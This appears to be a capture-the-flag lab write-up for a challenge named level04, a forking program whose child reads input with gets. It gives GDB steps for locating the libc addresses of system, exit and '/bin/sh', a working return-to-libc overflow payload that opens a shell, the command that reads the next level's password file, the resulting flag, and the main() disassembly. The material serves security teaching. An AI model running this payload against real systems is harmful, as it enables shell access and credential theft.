 # level04

##Vulnerability type:
Buffer Overflow

## Walkthrough:

The program uses the `fork` function, where the parent enters an infinite loop, and the child enters the first condition. The use of the `gets` function creates a vulnerability that can be exploited.

The debugger GDB is set to follow the child process with the command `set follow-fork-mode child`.

**Exploiting the Vulnerability:**

Since you can't make direct syscalls, you are going to use the Return-to-Libc (RET2LIBC) method. You need the addresses of `system`, `exit`, and `"/bin/sh"`.

- Address of `system`:

  ```bash
  (gdb) info function system
  [...]
  0xf7e6aed0  system
  ```

- Address of `exit`:

  ```bash
  (gdb) info function exit
  [...]
  0xf7e5eb70  exit
  ```

- Address of `"/bin/sh"`:

  ```bash
     (gdb) info proc map
     process 1763
     Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
        0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
        0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

  (gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
  0xf7f897ec
  ```

With this information, you can construct the payload to exploit the buffer overflow. Here's an example payload:

```bash
(python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04
```

This payload will execute `/bin/sh`, which will give you shell access. You can then read the flag:

```bash
cat /home/users/level05/.pass
Flag: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## main()

```
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0
```

```
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
   0x08048763 <+155>:	jmp    0x804881a <main+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>
   0x080487b8 <+240>:	jmp    0x804881a <main+338>
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
```
